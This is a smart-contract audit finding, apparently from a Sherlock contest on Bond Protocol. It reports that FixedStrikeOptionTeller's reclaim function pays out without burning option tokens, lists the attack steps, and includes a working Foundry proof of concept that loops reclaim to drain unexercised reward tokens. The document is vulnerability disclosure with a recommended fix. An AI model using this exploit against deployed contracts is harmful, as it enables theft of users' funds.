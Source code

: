 | Severity | Title | 
|:--:|:---|
| [H-01](#h-01-users-can-steal-all-claimed-but-not-exercised-reward-token) | Users can steal all claimed, but not exercised reward token |




# [H-01] Users can steal all claimed, but not exercised reward token

## Summary
Any user can steal all of the payout tokens that **are claimed** in `OTLM`, but **not exercised** in `FixedStrikeOptionTeller`
## Vulnerability Detail
For this to happen the attacker needs to set up and copy some parts, so lets begin:

- **1** A normal provider sets up  [`OTLM`](https://github.com/sherlock-audit/2023-06-bond/blob/main/options/src/fixed-strike/liquidity-mining/OTLM.sol) for users to mine rewards and provide liquidity. 
- **2** The attacker calls the [`deploy`](https://github.com/sherlock-audit/2023-06-bond/blob/main/options/src/fixed-strike/FixedStrikeOptionTeller.sol#L107-L191) function in [`FixedStrikeOptionTeller`](https://github.com/sherlock-audit/2023-06-bond/blob/main/options/src/fixed-strike/FixedStrikeOptionTeller.sol) with the same payout token used by the provider, creating an opToken for themselves. 
```jsx
    function deploy(
        ERC20 payoutToken_,//copy his token
        ERC20 quoteToken_,//does not matter
        uint48 eligible_,// 0 to trigger with block.timestamp
        uint48 expiry_,// just above minOptionDuration => 1 day
        address receiver_,//your address
        bool call_,//true
        uint256 strikePrice_//does not matter
    );
```
- **3** The attacker calls the [`create`](https://github.com/sherlock-audit/2023-06-bond/blob/main/options/src/fixed-strike/FixedStrikeOptionTeller.sol) function and sends 100e18 of the payout tokens to the contract, allowing FixedStrikeOptionTeller to mint 100e18 opTokens for himself.

- **4** The attacker waits for the expiry timestamp of their opToken to pass and calls [`reclaim`](https://github.com/sherlock-audit/2023-06-bond/blob/main/options/src/fixed-strike/FixedStrikeOptionTeller.sol#L395-L437) , passing their opToken.

`reclaim`, will check if your token [is registered](https://github.com/sherlock-audit/2023-06-bond/blob/main/options/src/fixed-strike/FixedStrikeOptionTeller.sol#L398C1-L420) in `FixedStrikeOptionTeller`, and if you are the [`receiver`](https://github.com/sherlock-audit/2023-06-bond/blob/main/options/src/fixed-strike/FixedStrikeOptionTeller.sol#L426). Afterwards it gets the `totalSupply`, of your opToken (we minted 100e18 with `create`, in step 3) and it send this amount to you, **without burning the opTokens**. Now you can call this function as many times as there are tokens in this contract and take them all.

```jsx
        //totalSupply == 100e18
        uint256 amount = optionToken.totalSupply();
        if (call) {
            //@audit just transfer the tokens without burning or any other checks???
            payoutToken.safeTransfer(receiver, amount);
        } 
```
## Impact
User can steal any or all of **claimed**, but **not exercised** reward token
## Code Snippet
https://github.com/sherlock-audit/2023-06-bond/blob/main/options/src/fixed-strike/FixedStrikeOptionTeller.sol#L395-L437

## PoC:
```solidity
// SPDX-License-Identifier: Unlicense
pragma solidity >=0.8.0;

import {Test} from "forge-std/Test.sol";
import {console} from "forge-std/console.sol";

import {MockERC20, ERC20} from "solmate/test/utils/mocks/MockERC20.sol";
import {MockBondOracle} from "test/mocks/MockBondOracle.sol";
import {RolesAuthority, Authority} from "solmate/auth/authorities/RolesAuthority.sol";

import {TokenAllowlist, IAllowlist, ITokenBalance} from "src/periphery/TokenAllowlist.sol";
import {FixedStrikeOptionTeller, FixedStrikeOptionToken, FullMath} from "src/fixed-strike/FixedStrikeOptionTeller.sol";
import {OTLMFactory, ManualStrikeOTLM, OracleStrikeOTLM} from "src/fixed-strike/liquidity-mining/OTLMFactory.sol";

contract FixedStrikeOTLMTest is Test {
    using FullMath for uint256;

    address public guardian;
    address public user1;
    address public user2;
    address public user3;

    MockERC20 public reward;
    MockERC20 public ghi;

    RolesAuthority public auth;
    FixedStrikeOptionTeller public teller;
    OTLMFactory public otlmFactory;
    ManualStrikeOTLM public motlm;
    OracleStrikeOTLM public ootlm;
    MockBondOracle public oracle;
    TokenAllowlist public allowlist;

    bytes public constant ZERO_BYTES = bytes("");
    MockERC20 pToken;
    MockERC20 qToken;
    MockERC20 stakeToken;

    function setUp() public {
        pToken = new MockERC20("payoutToken", "payoutToken", 18);
        qToken = new MockERC20("quoteToken", "quoteToken", 18);
        stakeToken = new MockERC20("stakeToken", "stakeToken", 18);
        vm.warp((52 * 365 + (52 - 2) / 4) * 24 * 60 * 60 + 12 hours);
        vm.label(address(pToken), "pToken");
        vm.label(address(qToken), "qToken");
        vm.label(address(stakeToken), "stakeToken");

        guardian = address(0x3b);
        user1 = address(111);
        user2 = address(222);
        user3 = address(333);
        vm.label(user1, "user1");
        vm.label(user2, "user2");
        vm.label(user3, "user3");

        // Deploy contracts
        auth = new RolesAuthority(address(this), Authority(address(0)));
        teller = new FixedStrikeOptionTeller(guardian, auth);
        otlmFactory = new OTLMFactory(teller);

        stakeToken = new MockERC20("stakeToken", "stakeToken", 18);
        reward = new MockERC20("reward", "reward", 18);
        ghi = new MockERC20("GHI", "GHI", 18);

        vm.label(address(stakeToken), "StakeToken");
        vm.label(address(reward), "RewardToken");
        vm.label(address(ghi), "ghi");

        auth.setRoleCapability(uint8(0), address(teller), teller.setProtocolFee.selector, true);
        auth.setRoleCapability(uint8(0), address(teller), teller.claimFees.selector, true);
        auth.setUserRole(guardian, uint8(0), true);

        vm.prank(guardian);
        teller.setProtocolFee(uint48(500));

        pToken.mint(user1, 1e24);
    }

    function _OTLM() internal {
        vm.prank(user1);
        motlm = ManualStrikeOTLM(
            address(otlmFactory.deploy(stakeToken, pToken, OTLMFactory.Style.ManualStrike))
        );

        vm.prank(user1);
        motlm.initialize(
            qToken,
            uint48(1 days),
            uint48(14 days),
            user1,
            uint48(7 days),
            1e18,
            1000e18,
            IAllowlist(address(0)),
            abi.encode(0),
            abi.encode(5 * 1e18)
        );

        vm.prank(user1);
        pToken.transfer(address(motlm), 1e24);
    }

    function test_Reclaim_Vuln() public {
        stakeToken.mint(user2, 1000e18);
        pToken.mint(user3, 100e18);
        _OTLM();

        vm.startPrank(user2);

        stakeToken.approve(address(motlm), type(uint256).max);

        motlm.stake(1e18, ZERO_BYTES);
        vm.stopPrank();

        skip(1 days);

        vm.prank(user2);
        motlm.claimRewards();
        uint48 epoch = motlm.epoch();
        FixedStrikeOptionToken opToken = motlm.epochOptionTokens(epoch);
        console.log("user2 opToken balance: ", opToken.balanceOf(user2) / 1e18);

        vm.startPrank(user3);
        pToken.approve(address(teller), type(uint256).max);
        FixedStrikeOptionToken attackerOpToken = teller.deploy(
            pToken,
            qToken,
            0,
            uint48(teller.minOptionDuration() + block.timestamp),
            user3,
            true,
            1e18
        );
        uint stealAmount = 100e18;
        teller.create(attackerOpToken, stealAmount);

        skip(2 days);

        while (pToken.balanceOf(address(teller)) >= stealAmount) {
            teller.reclaim(attackerOpToken);
        }

        console.log("Attacker payout token balance: ", pToken.balanceOf(user3) / 1e18);
    }
}
```

## Tool used

Manual Review

## Recommendation
You can either burn the tokens or implement a system that maps the payout tokens with opTokens. 